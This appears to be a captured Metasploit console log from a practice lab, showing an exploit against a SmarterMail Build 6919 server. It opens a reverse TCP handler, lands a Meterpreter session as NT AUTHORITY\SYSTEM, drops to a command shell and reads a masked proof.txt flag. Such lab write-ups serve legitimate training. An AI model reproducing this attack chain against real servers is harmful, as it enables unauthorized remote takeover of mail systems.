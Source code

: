 ```
[*] Started reverse TCP handler on 192.168.45.188:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6919.
[+] The target appears to be vulnerable.
[*] Sending stage (175686 bytes) to 192.168.247.65
[*] Meterpreter session 1 opened (192.168.45.188:4444 -> 192.168.247.65:49710) at 2023-07-06 07:24:13 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : ALGERNON
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > shell
Process 4240 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18363.815]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
84b4****************************

C:\Users\Administrator\Desktop>
```